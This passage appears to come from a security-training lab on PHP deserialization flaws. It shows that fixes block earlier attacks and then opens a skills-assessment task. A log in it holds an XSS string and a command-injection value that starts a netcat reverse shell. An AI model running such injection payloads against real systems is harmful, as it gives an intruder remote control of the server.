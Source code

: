 ```php
...
<p class="text-success">{{ Session::get('ie-message') }}</p>
...

```

At this point, the vulnerabilities should all be fixed! If we run the new server, log in and click on `Export Settings` we will get a value similar to this:

```shell
echo eyJuYW1lIjoicGVudGVzdCIsImVtYWlsIjoicGVudGVzdEB0ZXN0LmNvbSIsInBhc3N3b3JkIjoiJDJ5JDEwJHU1bzZ1MkViak9tb2JRalZ0dTg3UU84WndRc0RkMnp6b3Fqd1MwLjV6dVByM2hxazl3ZmRhIiwicHJvZmlsZV9waWMiOiJ1cGxvYWRzXC83ZTRjMDkwZjdhMjBkMmI5YmVkYmE3ZGEwNTAyN2UzOS5qcGcifQ== | base64 -d
{"name":"pentest","email":"[email protected]","password":"$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda","profile_pic":"uploads\/7e4c090f7a20d2b9bedba7da05027e39.jpg"}

```

Our custom attack payloads will not work anymore, nor for the XSS...

![](V5iX1DEos0YC.png)

... nor for the command injection ...

```shell
tail /tmp/htbank.log
[13.10.2022 12:35:15] Serialized user 'pentest'
[13.10.2022 12:35:55] Serialized user '<script>alert(1)</script>'
[13.10.2022 12:36:02] Unserialized user '<script>alert(1)</script>'
[13.10.2022 12:37:56] Serialized user 'pentest'
[13.10.2022 12:37:57] Unserialized user 'pentest'
[13.10.2022 12:38:08] Serialized user 'example'
[13.10.2022 12:38:10] Serialized user 'example'
[13.10.2022 12:38:11] Unserialized user 'example'
[13.10.2022 12:38:38] Serialized user '"; nc -nv 172.17.0.0.1 9999 -e /bin/bash; #'
[13.10.2022 12:38:41] Unserialized user '"; nc -nv 172.17.0.0.1 9999 -e /bin/bash; #'

```

... and trying the PHPGGC payload will result in a server error (when PHP tries to access `$userSettings->name` after decoding the "JSON" object).

![](LCmW8FwQVp0J.png)


# Skills Assessment I

* * *

You are tasked with testing the `HTBrain` note-taking application for vulnerabilities.

- **Your Second Brain**: "Your mind is for having ideas, not holding them.", so don't overload your brain with ideas; just dump them into HTBrain.
- **Convenient**: Our web app allows you to write down your thoughts and quick notes easily and securely.
- **Secure**: Our web app does not require any authentication or logins; all data is stored on the front end, and nothing is saved on our servers.
